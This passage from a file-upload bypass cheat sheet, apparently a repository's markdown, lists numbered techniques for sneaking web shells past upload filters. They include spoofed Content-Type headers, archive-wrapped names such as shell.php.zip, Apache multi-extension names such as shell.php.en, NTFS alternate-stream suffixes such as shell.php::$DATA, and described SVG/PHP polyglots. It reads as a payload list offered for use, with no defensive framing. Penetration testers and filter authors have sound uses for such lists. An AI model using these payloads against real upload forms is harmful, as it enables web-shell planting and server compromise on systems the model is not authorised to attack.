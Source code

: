 
## 1️⃣2️⃣ MIME-Type Abuse (5)
Content-Type: application/x-php  
Content-Type: text/plain  
Content-Type: image/jpeg  
Content-Type: image/png  
Content-Type: application/octet-stream  
**MIME-Type Related:** application/x-httpd-php, text/plain, image/jpeg, image/png, application/octet-stream

---

## 1️⃣3️⃣ Archive Tricks (5)
shell.php.zip  
shell.php.tar  
shell.php.tar.gz  
shell.php.rar  
shell.php.gz  
**MIME-Type Related:** application/zip, application/x-tar, application/gzip, application/x-rar-compressed

---

## 1️⃣4️⃣ Legacy Apache mod_mime Confusion (5)
shell.php.en  
shell.php.fr  
shell.php.txt.en  
shell.php.plain.en  
shell.php.de  
**MIME-Type Related:** application/x-httpd-php, text/plain

---

## 1️⃣5️⃣ IIS / NTFS Alternate Data Streams (5)
shell.asp::$DATA  
shell.php::$DATA  
shell.php::$INDEX_ALLOCATION  
shell.aspx::$DATA  
shell.asp::$INDEX_ALLOCATION  
**MIME-Type Related:** application/x-httpd-php, application/x-aspx

---

## 1️⃣6️⃣ SVG + PHP Polyglots (5)
image.svg containing `<?php ... ?>`  
SVG with embedded `<script>` executing PHP  
SVG with Base64-encoded PHP in `<image xlink:href>`  
SVG + JPEG polyglot with PHP footer  
SVG with external entity injection calling PHP  
**MIME-Type Related:** image/svg+xml, image/jpeg, application/x-httpd-php

---